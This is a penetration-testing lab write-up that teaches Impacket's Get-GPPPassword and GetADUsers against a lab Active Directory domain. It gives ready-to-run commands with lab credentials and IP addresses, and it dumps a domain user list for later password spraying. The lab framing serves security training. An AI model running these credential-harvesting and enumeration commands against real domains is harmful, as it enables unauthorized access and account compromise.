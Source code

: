 This lab provides an introduction to the use of the Impacket Python classes provided by SecureAuthCorp. This toolkit is among a pentester's favorites. Some of the tools reviewed in this lab are listed below  
* Get-GPPPassword  
* GetUserSPNs  
* Secretsdump.py  
* GetADUsers.py  
  
The domain passwords we discovered in user attributes will be useful for these labs. As recommended during an earlier lab, you will need to reference previously compromised accounts to use some of the tools in this lab. For example, SecretsDump, GetGPPPassword, GetUserSPNs rely on a domain user account for usage.
# Objectives
This lab provides an opportunity to interact with one of the most important toolkits used by security analysts, penetration testers, and hackers alike.
# Methods
* Active impacket's Python environment  
* Review tools in /examples/  
* Run Get-GPPPassword.py  
* Run Get-UserSPNs.py  
* Run (cheat) Secretsdump.py  
* Run Get-ADUsers.py

# System to Execute On
Operate this lab on Linux System Nux01

```
ssh doadmin@20.232.164.198
```
# Activate Python Dependency Environment

First we will prepare a Python Dependency environment to execute the Impacket tools within.

Run these commands to prepare the environment and list the tools of Impacket.

```bash
deactivate
sudo -s
cd /opt/impacket
cd examples
ls #AllTheTools
```

With setup file
```bash
sudo python3 ./setup.py install
```
# Attack: GetGPPasswords.py
Our first investigation is going to search the domain for group policy preference passwords. You might laugh here and say "yeah, that is not a thing any longer. You just won't find it." This showed up in a report written for a customer in the second half of December, 2021. The recovered password was used for domain escalation. It. Still. Happens.

Your target domain controller IP address is: `192.168.2.4`

Run the following command to see the Get-GPPPasswords.py quick help file.

```bash
Get-GPPPassword.py
```

![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206014733529.png)

Remember the earlier mentions of credential maintenance? You need to find the user accounts in your BadBlood deployment that were compromised, both username and password.

**This lab requires strict adherence to the use of single quotes: '**

Determine which user account you plan to use with these tools. Both Get-* tools only require minimal domain privilege. SecretsDump requires higher privileges for the account due to the nature of remote registry access and making requests for the contents of LSA.

To clarify - Get-GPPPassword reviews the contents of the domain's SYSVOL share, which under most circumstances is readable by the entire "Domain Users" group.

Lets excute Get-GPPPasswords with an account credential observed earlier.

```bash
Get-GPPPassword.py 'doazlab.com'/'ella_mejia':'Yzafqau7r3EQdrdw!#Eiunp'@'192.168.2.4'
```

Sadly, the results indicate that there were no group policy preference passwords available on this domain. That's ok, it was expected.

![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206015130366.png)

If you do not have credentials to use, feel free to use your doazlab\doadmin:DOLabAdmin1! account. That command is copied below if you need it.

```bash
Get-GPPPassword.py 'doazlab.com'/'doadmin':'DOLabAdmin1!'@'192.168.2.4'
```

# Attack: GetADUsers.py
This Python class was written to enumerate AD users as either individuals or en masse. We are going to use it here to dump a list of users out of the Active Directory environment and later as the user list for password spraying.

The following command is used to dump a list of to both the console and to create a file (tee) in the /opt/ directory called adusers.txt.
- TODO
```bash
sudo -s
cd /opt/impacket/
source imp-env/bin/activate
cd examples/
python3 GetADUsers.py -all -ts doazlab.com/doadmin:'DOLabAdmin1!' -dc-ip 192.168.2.4 |tee -a /opt/adusers.txt
```

![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206020514314.png)

Exit the virtual Impacket environment gracefully.

```bash
deactivate
cd /opt/
ls
wc -l adusers.txt
```

![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206020814255.png)

